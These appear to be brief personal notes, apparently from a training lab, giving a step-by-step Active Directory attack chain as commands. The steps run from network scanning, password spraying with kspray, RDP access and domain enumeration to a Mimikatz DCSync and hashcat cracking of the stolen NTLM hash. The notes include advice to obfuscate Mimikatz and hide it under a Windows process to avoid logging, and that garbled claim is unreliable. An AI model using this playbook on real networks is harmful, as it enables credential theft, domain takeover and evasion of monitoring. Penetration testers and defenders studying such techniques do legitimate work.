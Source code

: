 # AD with John

https://raw.githubusercontent.com/rollinz007/kspray/master/kspray.sh

## Nmap enumeration

nmap -sT -p80,3389 -O --reason -oA <filename> <ip>.0/24

## K-Spray

sudo ./kspray.sh <domain> <list> <password>

rpd into host

xfreerdp /u:<username> /p:<password> /w:1280 /h:800 /v:mail.<domain>

- try running commands prompt as local admin

PowerShell

- whoami /all *group membership*
- net users /dom *pulls all users for domain*
- net groups /dom *find interesting group*
- net groups <interesting group> /dom 
- net user <user> /dom
- net groups "domain admins" /dom

Get-ObjectACL "DC=hackworks, DC=local" -ResolveGUIDs | ? {($_.ActiveDirectoryRAceType -match 'Replication-Get')} | findstr s-1-5-21-3824454180-221547745-759641303-2601

## dcsync

mimikatz - needs to be obsfucated

run it as a child process 

exmaple of register 32 which is a windows update and does not log those child processes 

lsadump::dcsync /user:<domain_admin> 

if permissions are not set right, then you get secrets

NTLM hash obtained

echo <hash> > hash.txt

hashcat -a 0 -m 1000 hash.txt /usr/share/wordlists/rockyou.txt --show

xfreerdp /u:<username> /p:<password> /w:1280 /h:800 /v:dccoloh01.<domain>

